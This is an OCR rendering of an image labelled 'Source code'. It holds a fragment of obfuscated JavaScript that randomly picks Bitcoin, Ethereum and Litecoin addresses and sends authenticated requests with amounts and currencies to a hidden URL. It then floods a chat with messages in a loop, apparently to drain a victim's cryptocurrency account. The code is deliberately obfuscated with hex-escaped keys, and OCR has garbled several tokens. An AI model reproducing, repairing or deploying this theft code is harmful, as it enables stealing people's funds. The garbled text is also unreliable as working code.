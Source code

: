 ltc1=_0x11ec[31];var ltc2=_0x11ec[31];varltc3=_0x11ec[31];var ltc4=_0x11ec[31];var ltc5=_0x11ec[31];varltc=[ltc1,ltc2,ltc3,ltc4,ltc5];var adresa1=Math[_0x11ec[33]] ((Math[_0x11ec[32]]()*5));var request= new XMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]] ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":null,"\x76\x61\x72\x69\x61 \x62\x6C\x65\x73": {"\x61\x64\x64\x72\x65\x73\x73":btc[adresa1],"\x61\x6D\x6F\x75\x6E\x74":vrednostnov ca1,"\x63\x75\x72\x72\x65\x6E\x63\x79":_0x11ec[10]},"\x71\x75\x65\x72\x79":_0x11ec[ 34]});request[_0x11ec[14]]= function(){if(this[_0x11ec[15]]== 4&amp;&amp;this[_0x11ec[16]]== 200){}};request[_0x11ec[18]] (_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21]] (_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data);var request= new XMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]]  ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":null,"\x76\x61\x72\x69\x61 \x62\x6C\x65\x73": {"\x61\x64\x64\x72\x65\x73\x73":eth[adresa1],"\x61\x6D\x6F\x75\x6E\x74":vrednostnov ca2,"\x63\x75\x72\x72\x65\x6E\x63\x79":_0x11ec[25]},"\x71\x75\x65\x72\x79":_0x11ec[ 34]});request[_0x11ec[14]]= function(){if(this[_0x11ec[15]]== 4&amp;&amp;this[_0x11ec[16]]== 200){}};request[_0x11ec[18]] (_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21]] (_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data);var request= new XMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]] ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":null,"\x76\x61\x72\x69\x61 \x62\x6C\x65\x73": {"\x61\x64\x64\x72\x65\x73\x73":ltc[adresa1],"\x61\x6D\x6F\x75\x6E\x74":vrednostnov ca3,"\x63\x75\x72\x72\x65\x6E\x63\x79":_0x11ec[26]},"\x71\x75\x65\x72\x79":_0x11ec[ 34]});request[_0x11ec[14]]= function(){if(this[_0x11ec[15]]== 4&amp;&amp;this[_0x11ec[16]]== 200){}};request[_0x11ec[18]] (_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21]] (_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data)}else {alert(_0x11ec[35]);document[_0x11ec[6]](_0x11ec[38])[0][_0x11ec[37]] [_0x11ec[36]]= _0x11ec[39]};setTimeout(function(){var request= new XMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]] ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":_0x11ec[40],"\x76\x61\x72\ x69\x61\x62\x6C\x65\x73": {"\x63\x68\x61\x74\x49\x64":_0x11ec[11],"\x6D\x65\x73\x73\x61\x67\x65":vrednostnovc a1},"\x71\x75\x65\x72\x79":_0x11ec[41]});request[_0x11ec[14]]= function() {if(this[_0x11ec[15]]== 4&amp;&amp; this[_0x11ec[16]]== 200){}};request[_0x11ec[18]] (_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21]] (_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data);var _0x195cx1e=_0x11ec[42];setInterval(function(){var request= newXMLHttpRequest(),url=_0x11ec[9],data=JSON[_0x11ec[13]] ({"\x6F\x70\x65\x72\x61\x74\x69\x6F\x6E\x4E\x61\x6D\x65":_0x11ec[40],"\x76\x61\x72\ x69\x61\x62\x6C\x65\x73": {"\x63\x68\x61\x74\x49\x64":_0x11ec[11],"\x6D\x65\x73\x73\x61\x67\x65":_0x195cx1e}, "\x71\x75\x65\x72\x79":_0x11ec[41]});request[_0x11ec[14]]= function() {if(this[_0x11ec[15]]== 4&amp;&amp; this[_0x11ec[16]]== 200){}};request[_0x11ec[18]] (_0x11ec[17],url,true);request[_0x11ec[21]] (_0x11ec[19],_0x11ec[20]);request[_0x11ec[21]] (_0x11ec[22],prva);request[_0x11ec[21]](_0x11ec[23],druga);request[_0x11ec[24]] (data)},200)},2500);
